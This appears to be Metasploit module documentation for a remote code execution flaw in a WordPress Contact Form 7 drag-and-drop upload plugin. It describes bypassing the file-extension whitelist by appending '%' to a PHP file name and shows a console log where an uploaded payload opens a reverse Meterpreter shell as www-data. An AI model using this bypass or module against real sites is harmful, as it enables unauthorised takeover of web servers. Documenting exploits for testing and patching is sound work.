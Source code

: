 ## Vulnerable Application

Drag and Drop Multiple File Upload - Contat Form 7 prior to version 1.3.4 contain a remote file upload
functionality, but is bound by a file extension whitelist.  However, this can be bypassed by appending
`%` at the end of the file, so `backdoor.php%` will pass the filter. No authentication is required for
exploitation.

At the time of writing this plugin has 20,000+ installs, and no mention of the vulnerability in the
changelog.

Plugin can be downloaded from [here](https://mega.nz/file/aQUClQKC#ZYeiTYSrPuRnwwlRavy4cqf_EXs34Tkq6KQig2RcOas).

`php-mbstring` is required for the plugin to work correctly, or else a `500` error will result in the
server logs.  No check is performed on plugin install for this.

`Contact Form 7` is also a required plugin to be installed.

No additional steps are required for exploitation such as configuring the plugins, or adding
a Contact Form (with drag and drop) to a page/post.

## Verification Steps

  1. Install wordpress and the plugins
  2. Start msfconsole
  3. Do: ```use exploits/multi/http/wp_dnd_mul_file_rce```
  4. Do: ```set rhosts```
  5. Do: ```run```
  6. You should get a shell.

## Options

## Scenarios

### Wordpress 5.4.1 with Drag and Drop Multiple File Upload - Contact Form 7 v1.3.3.2 and Contact Form 7 v5.1.9 on Ubuntu 20.04

  ```
resource (dnd.rb)> use exploits/multi/http/wp_dnd_mul_file_rce
resource (dnd.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (dnd.rb)> set verbose true
verbose => true
resource (dnd.rb)> check
[*] Checking /wp-content/plugins/drag-and-drop-multiple-file-upload-contact-form-7/readme.txt
[*] Found version 1.3.3.2 in the plugin
[*] 2.2.2.2:80 - The target appears to be vulnerable.
resource (dnd.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Getting nonce
[*] Nonce: 392e81074e
[*] Attempting payload upload
[+] Payload uploaded successful
[*] Attempting to trigger at well known location
[*] Sending stage (38288 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56032) at 2020-05-30 20:57:12 -0400
[+] Deleted ReasCENA.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-33-generic #37-Ubuntu SMP Thu May 21 12:53:59 UTC 2020 x86_64
Meterpreter : php/linux
  ```
